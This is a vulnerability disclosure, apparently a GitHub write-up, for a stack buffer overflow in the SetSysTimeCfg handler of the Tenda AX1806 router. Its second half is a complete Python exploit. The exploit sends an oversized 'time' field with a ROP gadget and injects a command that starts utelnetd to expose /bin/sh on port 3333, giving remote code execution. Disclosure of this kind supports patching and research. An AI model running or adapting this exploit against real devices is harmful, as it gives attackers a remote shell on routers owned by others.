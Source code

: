 Affect device: Tenda Router AX1806 v1.0.0.1(https://www.tenda.com.cn/download/detail-3306.html)

Vulnerability Type: Stack overflow

Impact: Remote Code Execution && Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/SetSysTimeCfg` page which influences the lastest version of Tenda Router AX1806 v1.0.0.1: https://www.tenda.com.cn/download/detail-3306.html



There is a stack buffer overflow vulnerability in the `fromSetSysTime` function.

The `v6` variable is directly retrieved from the http request parameter `time`.

Then `v6` will be splice to stack by function sscanf without any security check,which causes stack overflow.

![image-20220208175329650](image/1.png)

So by POSTing the page `/goform/SetSysTimeCfg` with proper `time`, the attacker can easily perform a **Remote Code Execution** or **Deny of Service(DoS)** with carefully crafted overflow data.

# Exp 

Remote Code Exection

```python
# Title: Exploit of Tenda-AX3's buffer overflow 
# Author: R1nd0&c0rn
# Date: 12/01/2022
# Vendor Homepage: https://www.tenda.com.cn/
# Version: AX1806 v1.0.0.1

import requests
from pwn import *

gadget = 0x37208

url = "https://192.168.2.1/goform/SetSysTimeCfg"

timeType = "manual"

time = b"2022-01-01 "

time += b"a" * 0x380 
time += b"bbbb"
time += b";"
time += b"/usr/sbin/utelnetd -l /bin/sh -p 3333"# command
time += b":"
time += b"c" * 0x374 + p32(gadget)

r = requests.post(url, data={'timeType': timeType, 'time': time},verify=False)
print(r.content)
```


